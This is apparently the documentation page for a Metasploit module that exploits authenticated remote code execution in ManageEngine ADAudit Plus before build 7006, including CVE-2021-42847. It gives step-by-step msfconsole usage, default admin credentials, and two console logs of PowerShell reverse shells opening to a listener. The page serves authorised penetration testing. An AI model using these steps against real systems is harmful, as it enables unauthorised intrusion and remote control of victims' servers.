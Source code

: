 ## Vulnerable Application
The module exploits security issues in ManageEngine ADAudit Plus prior to 7006 that allow authenticated users to execute arbitrary code
by creating a custom alert profile and leveraging the custom alert script component.

The module first runs a few checks to test the provided credentials, retrieve the configured domain(s) and obtain the build number.
If the credentials are valid and the target is vulnerable, the module creates an alert profile that will be triggered
for any failed login attempt to the configured domain.

For versions prior to build 7004, the payload is directly inserted in the custom alert script component of the alert profile.

For builds 7004 and 7005, the module leverages an arbitrary file write vulnerability (CVE-2021-42847) to create a Powershell script
in the alert_scripts directory that contains the payload.
The name of this script is then provided as the value for the custom alert script component of the alert profile.

The module will automatically delete the created alert profile before completing. This happens even if no shell was obtained.

This module requires valid credentials for an account with the privileges to create alert scripts.
It has been successfully tested against ManageEngine ADAudit Plus builds 7003 and 7005 running on Windows Server 2012 R2.

## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/).

After running the installer, you can launch ADAudit Plus by opening Command Prompt with administrator privileges
and then running: `<install_dir>\bin\run.bat`

Versions 7005 and prior are vulnerable by default, so no special configuration is required after installing the application.

The default ADAudit Plus credentials (set as default options for the module) are `admin`:`admin`

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `exploit`

## Options
### AUTH_DOMAIN
The ADAudit Plus authentication domain to use. The default is `ADAuditPlus Authentication`. If the provided domain
does not match an authentication domain that is configured for the target, the module will throw an error and inform the user.

### USERNAME
Username to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials

### PASSWORD
Password to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials

## Scenarios
### ManageEngine ADAudit Plus build 7003 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > options 

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.250              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.91.195   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7003
[*] Attempting to create an alert profile
[+] Successfully created alert profile UiYnupjyi24
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:54442) at 2022-10-12 12:09:43 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:54441) at 2022-10-12 12:09:43 +0300
[*] Attempting to delete alert UiYnupjyi24
[+] Successfully deleted alert UiYnupjyi24

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/mwlhr.ps1
[+] Successfully wrote the payload to /alert_scripts/mwlhr.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile dVmy0Ygz
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[!] Make sure to manually cleanup the mwlhr.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:41348) at 2022-10-12 12:59:28 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:41347) at 2022-10-12 12:59:28 +0300
[*] Attempting to delete alert profile dVmy0Ygz
[+] Successfully deleted profile alert dVmy0Ygz

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```
